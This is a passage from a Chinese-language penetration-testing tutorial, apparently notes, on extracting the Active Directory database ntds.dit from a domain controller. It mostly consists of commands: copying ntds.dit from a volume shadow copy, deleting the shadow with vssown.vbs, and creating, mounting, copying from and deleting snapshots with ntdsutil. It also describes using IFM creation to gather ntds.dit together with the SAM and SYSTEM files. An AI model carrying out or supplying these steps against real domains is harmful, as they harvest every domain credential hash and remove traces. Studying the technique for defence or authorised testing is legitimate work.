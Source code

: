 ![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751422283309-2e5c1310-88ad-410d-81ff-704e7b71da23.png)

+ 复制文件

```bash
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\NTDS\ntds.dit C:\ntds.dit
```

+ 删除卷影

```bash
cscript vssown.vbs /delete <列出卷影时的ID>
cscript vssown.vbs /delete {D0E1B1B0-96B3-4A5E-988A-4DA2738A078D}
```

### 利用Ntdsutil.exe工具（域管理员权限）
Ntdsutil.exe 是一个为 Active Directory 提供管理设施的命令行工具，该工具被默认安装在了域控制器上，可以在域控上直接操作，也可以通过域内机器在域控上远程操作，但是需要管理员权限。

操作流程如下：

+ 创建快照

```bash
ntdsutil snapshot "activate instance ntds" create quit quit
```

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751424071060-98b10dd2-c0ee-4c21-ba38-eb0a4a82d472.png)

+ 挂载快照

```bash
ntdsutil snapshot "mount <ID>" quit quit
ntdsutil snapshot "mount {f3ce5a64-11d7-4bcf-9858-81442e40d6cb}" quit quit
```

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751424091340-7be50cda-12cb-4f47-b519-79826c5dd2ca.png)

+ 复制文件

```bash
copy C:\$SNAP_202009291002_VOLUMEC$\windows\ntds\ntds.dit c:\ntds.dit
```

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751424117547-ff50549d-90ef-4613-af55-d0741b282ee0.png)

+ 卸载并删除快照

```bash
ntdsutil snapshot "mount <ID>" "delete <ID>" quit quit

ntdsutil snapshot "mount {f3ce5a64-11d7-4bcf-9858-81442e40d6cb}" "delete {f3ce5a64-11d7-4bcf-9858-81442e40d6cb}" quit quit
```

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751424137962-947b414e-aa0a-4b1f-a8cc-ed659eb82832.png)

### Ntdsutil创建IFM（域管理员权限）
<font style="color:rgb(51, 51, 51);">除了利用上面那种操作来获取Ntds.dit外，还可以利用Ntdsutil.exe创建媒体安装集(IFM)来用于提取NTDS.dit文件。</font>**<font style="color:rgb(51, 51, 51);">在使用ntdsutil创建创建媒体安装集(IFM)时，会自动进行生成快照、加载、将ntds.dit、计算机的SAM和SYSTEM文件复制到目标文件夹中等操作，我们可以利用该过程获取NTDS.dit文件。</font>**
